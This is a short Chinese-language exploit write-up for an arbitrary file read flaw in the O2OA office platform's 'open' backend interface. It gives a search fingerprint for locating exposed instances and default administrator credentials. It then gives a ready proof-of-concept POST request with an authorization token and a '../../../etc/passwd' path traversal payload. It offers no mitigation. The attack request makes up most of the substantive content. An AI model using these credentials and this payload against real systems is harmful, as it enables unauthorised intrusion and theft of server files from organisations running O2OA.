


# O2OA open 后台任意文件读取漏洞

## 漏洞描述

O2OA是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA系统 open 接口存在任意文件读取漏洞。攻击者可利用漏洞读取任意文件。

## 漏洞影响

```
O2OA
```

## 网络测绘

```
title=="O2OA"
```

## 漏洞复现

登录页面



默认密码登录后台 xadmin/o2 (o2oa@2022), 验证POC

```
POST /x_program_center/jaxrs/config/open?v=6.3
Authorization: PfyuxmzgIzq74NYhOcQ5NGbegmqb8H4y50QnO7mEHhA

{"fileName":"../../../etc/passwd"}
```

